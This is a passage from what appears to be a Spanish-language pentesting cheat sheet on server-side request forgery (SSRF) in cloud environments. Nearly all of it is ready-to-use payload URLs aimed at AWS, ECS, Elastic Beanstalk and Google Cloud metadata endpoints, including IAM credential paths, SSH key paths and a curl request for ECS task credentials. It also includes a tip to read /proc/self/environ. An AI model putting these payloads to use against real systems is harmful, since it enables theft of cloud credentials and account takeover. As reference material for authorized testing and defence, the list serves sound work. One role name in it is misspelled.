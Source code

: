 FILE UPLOAD + SSRF

- [https://www.youtube.com/watch?v=ICd_bOLMYZQ](https://www.youtube.com/watch?v=ICd_bOLMYZQ)

### BLIND SSRF + SHELLSHOCK




## CLOUD

En caso de encontrar un SSRF en la nube, existen algunos recursos interesantes:


### AWS

```bash
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
```

Si tiene una SSRF con acceso al sistema de archivos en una instancia de ECS, intente extraer **/proc/self/environ** para obtener UUID.

```bash
curl http://169.254.170.2/v2/credentials/<UUID>
```

para AWS con Elastik Beanstalk

```bash
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

### GOOGLE CLOUD

Requiere el header "Metadata-Flavor: Google" o "X-Google-Metadata-Request: True"

```bash
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```
